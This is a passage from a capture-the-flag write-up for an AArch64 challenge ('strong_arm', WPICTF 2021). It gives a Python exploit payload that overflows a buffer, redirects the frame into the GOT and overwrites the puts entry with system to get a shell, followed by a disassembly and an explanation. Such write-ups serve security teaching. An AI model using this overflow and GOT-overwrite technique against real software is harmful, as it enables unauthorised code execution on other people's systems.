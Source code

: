 ## Exploit GOT-overwrite

Replace the payload above with:

```python  
payload  = b''  
payload += 128 * b'A'  
payload += p64(binary.got.puts-0x10-0x08)  
payload += p64(0x400678)  
payload += b'\n'  
payload += b'/bin/sh\0'  
payload += p64(libc.sym.system)  
```

This sets `x29` as the base of a stack frame in the GOT 24 bytes above the
`puts` GOT entry, then sets `x30` as the `gets` in `vulnerable`:

```assembly  
 400678:       910043a0        add     x0, x29, #0x10  
 40067c:       97ffffb1        bl      400540 <gets@plt>  
 400680:       90000000        adrp    x0, 400000 <_init-0x4a0>  
 400684:       911e8000        add     x0, x0, #0x7a0  
 400688:       97ffffa2        bl      400510 <puts@plt>  
 40068c:       910043a0        add     x0, x29, #0x10  
 400690:       97ffffa0        bl      400510 <puts@plt>  
```

The first instruction sets the location of the string for `gets` in `x0` as
`x29 + 16`, the other `8` bytes we subtracted from the location of
`binary.got.puts` was for the string `/bin/sh\0`.

When `gets` is call on `main` `ret` that last two lines of the payload will
overwrite `abort` and `puts` in the GOT with `/bin/sh` and the address of
`system`.  With `puts` now `system`, the second `puts` _puts_ `/bin/sh`, but
it's really `system` and we get a shell.

Nice!  

Original writeup (https://github.com/datajerk/ctf-write-
ups/tree/master/wpictf2021/strong_arm).